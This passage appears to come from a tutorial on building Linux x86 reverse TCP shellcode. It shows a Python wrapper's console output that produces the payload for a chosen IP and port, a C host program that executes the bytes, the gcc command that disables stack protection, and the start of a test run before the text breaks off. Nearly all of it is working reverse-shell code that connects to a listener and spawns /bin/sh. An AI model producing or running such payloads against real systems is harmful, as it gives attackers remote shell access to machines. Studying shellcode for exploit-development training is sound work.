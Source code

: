 #### Generating the Shellcode with the Wrapper
```console
root# python revshWrapper.py
Enter TCP Port Number: 33801
Your TCP Port in Hex is: \x84\x09
Enter IP Address [127.1.1.1]: 172.16.65.138
Your IP Address in Hex is: \xac\x10\x41\x8a
Choose your shellcode export format.
[1] = C Format
[2] = Python Format
[1]: 1
[----------------Your-Shellcode------------------]
unsigned char shellcode[] = \
"\x31\xc0\xb0\x66\x31\xdb\x43\x31\xc9\x51\x53\x6a"
"\x02\x89\xe1\xcd\x80\x96\x31\xc0\x43\x68\xac\x10"
"\x41\x8a\x66\x68\x84\x09\x66\x53\x89\xe1\x6a\x10"
"\x51\x56\x89\xe1\x43\xb0\x66\xcd\x80\x87\xde\x31"
"\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x04\x75\xf6\x31"
"\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\xb0\x0b\x31\xc9\xcd\x80";
```

### Adding the Shellcode to the Host C Program
```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x31\xc0\xb0\x66\x31\xdb\x43\x31\xc9\x51\x53\x6a"
"\x02\x89\xe1\xcd\x80\x96\x31\xc0\x43\x68\xac\x10"
"\x41\x8a\x66\x68\x84\x09\x66\x53\x89\xe1\x6a\x10"
"\x51\x56\x89\xe1\x43\xb0\x66\xcd\x80\x87\xde\x31"
"\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x04\x75\xf6\x31"
"\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\xb0\x0b\x31\xc9\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

#### Compiling the Host C Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```

### Testing the Shellcode
#### Window 1
```console
root# ./shellcode
Shellcode Length:  80
```
